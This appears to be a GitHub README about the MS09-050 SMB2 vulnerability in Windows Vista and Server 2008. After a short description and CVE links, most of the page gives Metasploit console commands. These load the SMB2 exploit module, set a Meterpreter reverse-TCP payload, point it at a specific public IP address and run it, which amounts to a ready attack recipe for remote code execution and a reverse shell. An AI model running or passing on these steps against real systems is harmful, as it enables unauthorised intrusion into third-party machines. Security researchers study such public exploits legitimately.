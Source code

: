 # MS09-050

```
This module exploits an out of bounds function table dereference in the SMB 
request validation code of the SRV2.SYS driver included with Windows Vista, 
Windows 7 release candidates (not RTM), and Windows 2008 Server prior to R2. 
Windows Vista without SP1 does not seem affected by this flaw.
```

Vulnerability reference:
 * [MS09-050](https://technet.microsoft.com/library/security/ms09-050)
 * [CVE-2009-2532](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-2532)
 
## Usage
```
msf > search MS09_050
msf > use exploit/windows/smb/ms09_050_smb2_negotiate_func_index 
msf exploit(ms09_050_smb2_negotiate_func_index) > options
msf exploit(ms09_050_smb2_negotiate_func_index) > set payload windows/meterpreter/reverse_tcp
msf exploit(ms09_050_smb2_negotiate_func_index) > set rhost 110.196.193.102
msf exploit(ms09_050_smb2_negotiate_func_index) > run
```
  
  

## load the module within the Metasploit console
[msf](https://www.rapid7.com/db/modules/exploit/windows/smb/ms09_050_smb2_negotiate_func_index)
```
msf > use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
msf exploit(ms09_050_smb2_negotiate_func_index) > show targets
    ...targets...
msf exploit(ms09_050_smb2_negotiate_func_index) > set TARGET <target-id>
msf exploit(ms09_050_smb2_negotiate_func_index) > show options
    ...show and set options...
msf exploit(ms09_050_smb2_negotiate_func_index) > exploit
```

## References
[MS09-050漏洞测试](http://edu.aqniu.com/group/30/thread/107)  
[MS09-050 vulnerability](https://www.youtube.com/watch?v=cytEOUQ6QsI)  



